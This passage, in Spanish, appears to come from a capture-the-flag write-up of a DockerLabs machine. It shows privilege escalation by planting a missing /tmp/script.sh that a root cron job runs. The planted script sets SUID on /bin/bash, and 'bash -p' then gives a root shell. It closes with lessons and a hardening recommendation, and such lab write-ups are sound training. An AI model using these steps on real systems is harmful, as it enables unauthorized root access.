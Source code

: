 ```bash
/tmp/script.sh
```

Ahora que sabemos que se esta ejecutando en la ruta **/tmp/script.sh** como **root**, Y revisando en la ruta no existe ese archivo asi que nos podemos aprovechar de eso para crear una malicioso bajo el mismo nombre que nos permita dar privelegio **SUID** a la **bash** de **root**
```bash
www-data@dockerlabs:/tmp$ nano script.sh

chmod +x script.sh # Damos permiso de ejecucion
```

El contenido es:
```bash
chmod u+s /bin/bash
```

Ahora solo esperamos a que sea ejecutado:
```bash
ls -l /bin/bash

-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Logramos privilegios **SUID** a la **bash** de **root**, Ahora solo lanzamos la bash con privilegios:
```bash
bash -p
```

---

## Evidencia de Compromiso
Flags **Root**
```bash
bash-5.2# ls -la /root

-rw-r--r--  1 root root   33 Jan 15 12:41 root.txt
-rw-r--r--  1 root root    0 Jan 16 13:01 test
```

```bash
# Captura de pantalla o output final
bash-5.2# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos a subir al servidor un archivo malicioso que nos permita ganar acceso a el
2. Apredimos a aprovecharnos de tareas cron ejecutadas por **root**

## Recomendaciones de Seguridad
- Evitar ejecutar tareas **cron** con privilegios de **root** en directorios donde todos los usarios tengan capacidad de escritura: **/tmp**